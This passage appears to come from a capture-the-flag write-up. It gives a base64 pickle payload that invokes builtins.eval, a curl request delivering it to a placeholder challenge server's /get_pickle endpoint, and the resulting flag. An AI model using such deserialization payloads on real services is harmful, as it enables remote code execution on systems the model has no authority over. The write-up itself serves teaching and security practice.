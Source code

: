 ```py
    return result
            

preparation = "qsnr`"
last_ingredient = find_ingredient(preparation, "flag-")

print(' '.join([bin(ord(char))[2:].zfill(8) for char in last_ingredient]))
print(mix(preparation, last_ingredient))
```

The resulting base64-encoded string is as follows:
```
gASVTQAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwxKGxhbWJkYSA6IChyYW5kb20uc2VlZCgxMCksIFsnw6jDoMOww6rCsiddKVsxXSkoKZSFlFKULg==
```

When we send this data to the server, we receive an image in base64.

```
curl -X GET -d "data=gASVTQAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwxKGxhbWJkYSA6IChyYW5kb20uc2VlZCgxMCksIFsnw6jDoMOww6rCsiddKVsxXSkoKZSFlFKULg==" http://<IP>:<PORT>/get_pickle
```

Once the base64 is transformed into a PNG, we find the image:

![flag](./images/flag.png)


## Flag

```
flag-GrrrrD0ntT@K3MyP1cl3s
```
